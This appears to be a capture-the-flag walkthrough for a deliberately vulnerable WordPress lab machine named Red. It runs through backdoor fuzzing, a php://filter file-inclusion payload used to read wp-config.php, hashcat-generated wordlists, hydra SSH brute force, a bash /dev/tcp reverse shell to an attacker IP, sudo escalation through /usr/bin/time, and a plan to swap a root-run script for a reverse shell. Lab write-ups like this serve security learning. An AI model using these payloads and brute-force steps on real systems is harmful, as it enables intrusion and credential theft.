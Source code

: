 # Red1
**IP: 10.0.4.7**
<br>
First of all I did an `nmap` scan and found that there are two open ports:<br>
> 80 _apache_ <br>
> 22 _ssh_

The site looks pretty simple. But I found some things in `robots.txt`<br>

```
User-agent: *
Disallow: /wp-admin/
Allow: /wp-admin/admin-ajax.php

Sitemap: http://redrocks.win/wp-sitemap.xml
```

I went to the sitemap and found that there is user named:
administrator

Checked it in the admin-login page and looks like it works.
<br>
Going to the site we know that there is a backdoor. The hacker said so.
<br>
Let's look for backdoors. We have a good wordlists with backdoor names in seclists.<br>
`gobuster dir -u http://10.0.4.7/ -w CommonBackdoors-PHP.fuzz.txt`<br>
Looks like we found one:<br>
```
/NetworkFileManagerPHP.php (Status: 500) [Size: 0]
```
There is nothing if we go there. Therefore, we can try to put there different requests like:<br>
`/NetworkFileManagerPHP.php?search=qwe`<br>
We can use `wfuzz` to do it.<br>
```
wfuzz -c -u "http://redrocks.win/NetworkFileManagerPHP.php?FUZZ=test" -w /usr/share/wfuzz/wordlist/general/big.txt --hh 00
```
We will find that the word `key` works.<br>
Try `http://redrocks.win/NetworkFileManagerPHP.php?key=/etc/passwd` and you will get a good result.

We know that this is a wordpress site. Also, we know that in wordpress sites have wp-config.php file where is a lot of interesting information. If we try to access it we won't see it since our browser automaticly translates php code. However, we can find a php base64 filter on PlayloadsAllTheThings. https://github.com/swisskyrepo/PayloadsAllTheThings 
Here is an example:<br>
```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
Modify it for ourselves:<br>
```
http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=wp-config.php
```
And it will give us a base64 string which we can decode and get the original wp-config.php code.<br>
Here is an interesting piece of code:<br>
```
...
/** MySQL database username */
define( 'DB_USER', 'john' );

/** MySQL database password */
define( 'DB_PASSWORD', 'R3v_m4lwh3r3_k1nG!!' );
...
```
We know that there is the open ssh port. If we try to use these credentials to ssh it does not work.<br>
Also, we know that there is the backdoor file. Let's download it and look what it looks like.<br>
`http://redrocks.win/NetworkFileManagerPHP.php?key=php://filter/convert.base64-encode/resource=NetworkFileManagerPHP.php`<br>
Got a piece of code with another base64 line which says:<br>
`That password alone won't help you! Hashcat says rules are rules`<br>
And this is kind of hint.<br>
We know that `hashcat` is a tool for password bruteforcing. We can see the work "rules" in the text which brings an assumption that we need to use a rule. _That is where we need get acquainted with password cracking rules._ Also, we can make an assumption that the rules is best64, since our hint was encoded in base64.<br>
We are going to take the password that we found in `wp-config.php`, put it in fule `pwd.txt` and generate a custom wordlist with `hashcat` and rule called `best64`.<br>
Our command will look like this:<br>
```
hashcat pwd.txt -r /usr/share/hashcat/rules/best64.rule --stdout > custom_wordlist.txt
```
Now, we have got our custom wordlist. Let's try to bruteforce into `ssh`.<br>
```hydra -l john -P custom_wordlist.txt ssh://10.0.4.7```
> [22][ssh] host: 10.0.4.7   login: john   password: R3v_m4lwh3r3_k1nG!!02<br>
Looks like it worked.<br>

When we try to use `cat` command it runs `vi`, but when we use `vi` it runs `cat`.<br>
We can see that there is thee users:<br>
> ippsec<br>
> john <br>
> oxdf <br>

After a couple of minutes using the `ssh shell` the connection was closed. The attacker made a script that kicks us out. The same password does not work, but we can brute force it again.<br>

### Upgrading our shell so we do not get kick out.
1. Start a nc listener. `nc -lvnp 4444`
2. Run a simple reverse-shell on the victim machine. `bash -i >& /dev/tcp/10.0.4.4/4444 0>&1`
3. `python3 -c 'import pty;pty.spawn("/bin/bash")'` in our new reverse-shell.
4. *ctrl-z*
5. `stty raw -echo; fg`
9. `export TERM=xterm`
<br>
So now we have our new shell. Let's look how we can escalate our privileges.<br>
The simplest way is to run `sudo -l` <br> 
```
User john may run the following commands on red:
    (ippsec) NOPASSWD: /usr/bin/time
```
This is what we got.<br>
Go to https://gtfobins.github.io/gtfobins and find what we can do with /usr/bin/time.<br>
`sudo /usr/bin/time /bin/sh`<br>
However, by default sudo will try to run a tool with the privileges of root user, but we have only privileges of ippsec, so we need specify our user, so our command will look like:<br>
`sudo -u ippsec /usr/bin/time /bin/sh`<br>
_It is better to escalate our privileges to *ippsec* before we upgrade our shell_<br>
Let's look can we escalate our privileges to root.<br>
I used the next command to find all the folders where I have the permissions to write.<br>
`find / -writable -type d 2>/dev/null`<br>
It gave a couple of them, but the interesting one for me was:<br>
> /var/www/wordpress/.git <br>
If we go there, there are two files owned by root.<br>
I assume that root user run the rev file occassionally. But let's look at the processes to make sure.<br>
I am going to use pspy64s to look at the processes. https://github.com/wildkindcc/Exploitation/blob/master/00.PostExp_Linux/pspy/pspy64s.
I downloaded to my machine, started python http server and downloaded to the victim's machine.<br>
For some reason it says that there is no storage left and I cannot download anything to the machine. However the only thing that I had to do was replace the rev script with my own which I had permission to do. My own script would a simple reverse shell coded in C. After root would run the rev script again I would get my root reverse-shell.








